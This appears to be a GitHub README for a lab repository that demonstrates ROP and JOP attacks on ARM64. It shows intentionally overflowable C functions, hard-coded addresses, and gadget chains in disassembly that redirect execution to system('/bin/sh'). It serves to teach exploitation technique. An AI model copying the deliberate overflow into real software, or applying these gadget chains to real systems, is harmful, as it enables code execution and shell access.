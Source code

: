 ## Return-oriented programming (ROP) and Jump-oriented-programming (JOP) attack examples
When the stack overflow occurs, the examples show how to use the ROP and JOP to start shell with the system api.
### Platform
Hardware: [Neoverse N1 System Development Platform (N1SDP)](https://community.arm.com/developer/tools-software/oss-platforms/w/docs/457/n1sdp-getting-started-guide) 
<br>
OS: Ubuntu 18.04.4 LTS 
<br>
GCC: gcc version 7.5.0 

### Structure
```bash 
├── Makefile
├── jop           # JOP exe       
├── jop.asm       # JOP assembly dump file 
├── jop.c         # JOP source code 
├── jop.data      # JOP input binary data 
├── jop.data.gen  # JOP input binary data generate script
├── rop           # ROP exe 
├── rop.asm       # ROP assembly dump file
├── rop.c         # ROP source code 
├── rop.data      # ROP input binary data  
└── rop.data.gen  # ROP input binary data generate script
```
### system() API address 
Add the below code to make sure the system() api linking into the binary: 
```C
void rop_symbol()
{
	system("/bin/ls"); 
}
```
```assembly
	system("/bin/ls"); // to make the system link to the binary
  400404:	90000280 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  400408:	9116e000 	add	x0, x0, #0x5b8
  40040c:	940019b7 	bl	406ae8 <__libc_system>
```
system() api address is **0x406ae8**
### Useful string "/bin/sh" address
According to the glibc do_system source code
```C
      /* Exec the shell.  */
      (void) __execve (SHELL_PATH, (char *const *) new_argv, __environ);
      _exit (127);

  406acc:	d0000240 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  406ad0:	b900067f 	str	wzr, [x19, #4]
  406ad4:	91344000 	add	x0, x0, #0xd10
  406ad8:	9400475e 	bl	418850 <__execve>
```
String "/bin/sh" can be found at address **0x450d10**
### ROP example
```C
void rop_bad_func()
{
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;
	fd = open("./rop.data",O_RDONLY);
	read(fd,&u64,512);
}
```

#### Useful gadgets
* gadget 1: main
```
	rop_bad_func();
  40046c:	97ffffec 	bl	40041c <rop_bad_func>
	return 0;
  400470:	52800000 	mov	w0, #0x0                   	// #0
}
  400474:	a8c17bfd 	ldp	x29, x30, [sp], #16
  400478:	d65f03c0 	ret
  
```
Set X30 = next gadget address 

* gadget 2: __deregister_frame_info_bases
```
  44f02c:	f9400bf3 	ldr	x19, [sp, #16]
  44f030:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f034:	d65f03c0 	ret
```
Set X19 from stack,the value is the address string "/bin/sh", and it will set to X0 at next gadget
<br>
Set X30 = next gadget address 
* gadget 3: __deregister_frame_info_bases
```
  44f080:	aa1303e0 	mov	x0, x19
  44f084:	f9400bf3 	ldr	x19, [sp, #16]
  44f088:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f08c:	d65f03c0 	ret
 ```
Set X0 = X19
<br>
Set X30 = system() api address from stack
 #### Calling flow
 
 ```
 rop_bad_func 
   -->(0x400474) main 
      --> (0x44f02c)__deregister_frame_info_bases 
         --> (0x44f080)__deregister_frame_info_bases 
	    --> system 
	       --> system 
	         --> ...
 ```
### JOP examples
```
void jop_bad_func()
{
	jop_func_t func = NULL;
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;

	fd = open("./jop.data",O_RDONLY);
	func = jop_symbol;
	read(fd,&u64,512);
	func();
}
```
#### Useful gadgets
* gadget 1: jop_bad_func
```
	func();
  400468:	f9401fa0 	ldr	x0, [x29, #56]
  40046c:	d63f0000 	blr	x0
```
Set X0 = gadget 2 address from stack 

* gadget 2: _dl_runtime_profile
```
  441d84:	a94307a0 	ldp	x0, x1, [x29, #48]
  441d88:	6d4407a0 	ldp	d0, d1, [x29, #64]
  441d8c:	6d450fa2 	ldp	d2, d3, [x29, #80]
  441d90:	f94077be 	ldr	x30, [x29, #232]
  441d94:	910003bf 	mov	sp, x29
  441d98:	f94003bd 	ldr	x29, [x29]
  441d9c:	910403ff 	add	sp, sp, #0x100
  441da0:	d61f03c0 	br	x30
```
Set X0 = system() address 
<br>
Set X30 = gadget 3 address 

* gadget 3: _dl_runtime_profile
```
  441cf4:	aa0003f0 	mov	x16, x0
  441cf8:	a94607a0 	ldp	x0, x1, [x29, #96]
  441cfc:	a9470fa2 	ldp	x2, x3, [x29, #112]
  441d00:	a94817a4 	ldp	x4, x5, [x29, #128]
  441d04:	a9491fa6 	ldp	x6, x7, [x29, #144]
  441d08:	6d4a07a0 	ldp	d0, d1, [x29, #160]
  441d0c:	6d4b0fa2 	ldp	d2, d3, [x29, #176]
  441d10:	6d4c17a4 	ldp	d4, d5, [x29, #192]
  441d14:	6d4d1fa6 	ldp	d6, d7, [x29, #208]
  441d18:	a9407bbd 	ldp	x29, x30, [x29]
  441d1c:	910403ff 	add	sp, sp, #0x100
  441d20:	d61f0200 	br	x16
```
Set X16 = X0 (system address)
<br>
Set X0 = "/bin/sh" string address
#### Calling flow
```
jop_bad_func 
  --> (0x441d84)_dl_runtime_profile 
    --> (0x441cf4)_dl_runtime_profile 
       --> system
```
 
